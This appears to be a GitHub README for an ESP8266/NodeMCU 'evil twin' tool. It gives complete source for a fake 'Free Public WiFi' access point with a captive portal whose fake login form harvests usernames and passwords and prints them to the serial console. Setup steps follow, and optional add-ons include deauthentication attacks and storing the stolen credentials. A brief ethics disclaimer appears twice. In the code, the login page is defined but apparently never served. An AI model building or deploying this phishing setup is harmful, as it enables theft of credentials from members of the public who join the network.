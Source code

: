 # Evil-Twin_Node_MCU



```bash
#include <ESP8266WiFi.h>
#include <DNSServer.h>
#include <ESP8266WebServer.h>

// Configuration
const char* AP_SSID = "Free Public WiFi";  // Fake AP name
const char* REDIRECT_URL = "http://login.required";  // Phishing URL

const byte DNS_PORT = 53;
IPAddress apIP(192, 168, 1, 1);
DNSServer dnsServer;
ESP8266WebServer webServer(80);

// HTML for captive portal
const char* loginPage = 
R"rawliteral(
<!DOCTYPE html>
<html>
<head>
<title>Network Login Required</title>
<style>
  body { font-family: Arial, sans-serif; background: #f0f0f0; }
  .container { background: white; width: 300px; margin: 100px auto; padding: 20px; border-radius: 5px; box-shadow: 0 0 10px rgba(0,0,0,0.1); }
  input { width: 100%; padding: 10px; margin: 8px 0; box-sizing: border-box; }
  button { background: #4CAF50; color: white; padding: 14px 20px; border: none; cursor: pointer; width: 100%; }
</style>
</head>
<body>
<div class="container">
  <h2>Network Login</h2>
  <p>Enter credentials to access Internet</p>
  <form action="/login" method="POST">
    <input type="text" name="username" placeholder="Username" required>
    <input type="password" name="password" placeholder="Password" required>
    <button type="submit">Login</button>
  </form>
</div>
</body>
</html>
)rawliteral";

void setup() {
  Serial.begin(115200);
  
  // Configure AP
  WiFi.mode(WIFI_AP);
  WiFi.softAPConfig(apIP, apIP, IPAddress(255, 255, 255, 0));
  WiFi.softAP(AP_SSID);

  // Start DNS server (captive portal)
  dnsServer.start(DNS_PORT, "*", apIP);

  // Web server handlers
  webServer.on("/", handleRoot);
  webServer.on("/login", handleLogin);
  webServer.onNotFound(handleRoot);  // Redirect all requests
  webServer.begin();

  Serial.println("\nEvil Twin AP Running!");
  Serial.print("SSID: ");
  Serial.println(AP_SSID);
  Serial.print("IP: ");
  Serial.println(apIP);
}

void loop() {
  dnsServer.processNextRequest();
  webServer.handleClient();
}

// Handle captive portal redirect
void handleRoot() {
  webServer.sendHeader("Location", REDIRECT_URL, true);
  webServer.send(302, "text/plain", "");
}

// Process captured credentials
void handleLogin() {
  String username = webServer.arg("username");
  String password = webServer.arg("password");
  
  Serial.println("\n[+] Credentials Captured!");
  Serial.print("Username: ");
  Serial.println(username);
  Serial.print("Password: ");
  Serial.println(password);

  // Redirect after capture
  webServer.sendHeader("Location", "http://example.com", true);
  webServer.send(302, "text/plain", "Login Successful");
}

// Not needed but included for clarity
void handleNotFound() {
  handleRoot();
}
```

> ## Note
>  - You can modify certain parameters in the code to fit your requirements:
>  - **Redirected URL:** Change the URL users are sent to after submitting credentials to match your test scenario.
>  - **SSID:** Set your own Wi-Fi network name to attract targets or for testing purposes.
>  - **DNS:** Adjust DNS settings if you want to redirect to a different captive portal or server.
>  - Make sure to update these variables in the source code before uploading to your NodeMCU device.

>> ## Ethical Considerations
> - **Legal Compliance:** Only test on your own networks
> - **Disclosure:** Add disclaimer to login page in real tests
> - **Data Handling:** Never store captured credentials permanently
> - **Permissions:** Requires written consent for penetration testing

## Key Components

**Fake Access Point:**
- Creates Wi-Fi network with specified SSID
- Uses IP 192.168.1.1 for gateway

**Captive Portal:**
- DNS server redirects all domains to ESP
- Any HTTP request shows login page
- Professional-looking login form

**Credential Harvesting:**
- Captures username/password via POST
- Prints credentials to serial monitor
- Shows "success" redirect after submission

## Setup Instructions
- Upload code to NodeMCU
- Open Serial Monitor (115200 baud)
- Connect device to Free Public WiFi
- Attempt to browse any website
- Enter test credentials in login page
- Observe credentials in Serial Monitor

## Ethical Considerations
- **Legal Compliance:** Only test on your own networks
- **Disclosure:** Add disclaimer to login page in real tests
- **Data Handling:** Never store captured credentials permanently
- **Permissions:** Requires written consent for penetration testing

## Enhancements (Optional)
- Add EAP/TLS encryption simulation
- Implement WiFi deauthentication (requires external hardware)
- Add SSL/TLS (requires HTTPS library)
- Store credentials to SPIFFS/SD card
